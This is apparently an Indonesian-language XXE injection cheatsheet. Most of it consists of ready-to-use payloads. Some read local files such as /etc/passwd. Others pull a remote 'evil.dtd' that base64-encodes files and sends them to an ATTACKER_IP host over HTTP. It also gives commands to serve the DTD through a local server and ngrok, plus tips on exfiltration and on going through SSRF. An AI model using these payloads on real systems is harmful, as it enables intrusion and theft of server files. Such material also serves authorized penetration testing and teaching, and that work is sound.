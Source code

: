 # XXE Injection Cheatsheet

## 1. Payload Dasar XXE

Membaca file lokal (`/etc/passwd`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <data>&xxe;</data>
</root>
```

---

## 2. XXE Error-Based

Jika output tidak langsung terlihat, kadang error message akan menampilkan hasil pembacaan file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <data>&xxe;</data>
</root>
```

---

## 3. XXE Out-of-Band (OOB) dengan Custom DTD

### a. Menyiapkan Server untuk Exfiltration

Jalankan HTTP server di direktori yang berisi `evil.dtd`:

```bash
python3 -m http.server 1337
# atau
php -S 0.0.0.0:1337
```

Untuk akses publik, gunakan ngrok:

```bash
ngrok http 1337
```

### b. Contoh isi `evil.dtd`

```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

### c. Payload XXE untuk Memanggil DTD Eksternal

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:1337/evil.dtd">
  %xxe;
]>
<root>
    <data>&exfil;</data>
</root>
```

---

## 4. Membaca File Lain (misal `/etc/hostname`)

**evil-hostname.dtd:**

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % oob "<!ENTITY send SYSTEM 'http://ATTACKER_IP:1337/?host=%file;'>">
%oob;
```

**Payload:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:1337/evil-hostname.dtd">
  %xxe;
]>
<root>
    <data>&send;</data>
</root>
```

---

## 5. Tips & Catatan

- Ganti `ATTACKER_IP` dengan IP publik/ngrok kamu.
- Gunakan base64 encode agar data tidak corrupt saat exfiltration.
- Beberapa aplikasi membatasi akses DTD eksternal, gunakan SSRF jika memungkinkan.
- Cek dokumentasi parser XML yang digunakan untuk mengetahui fitur yang bisa dieksploitasi.

---

## 6. Deteksi XXE

- Coba upload XML dengan entity eksternal dan lihat respon aplikasi.
- Gunakan tools seperti Burp Suite untuk menganalisa dan memodifikasi request XML.
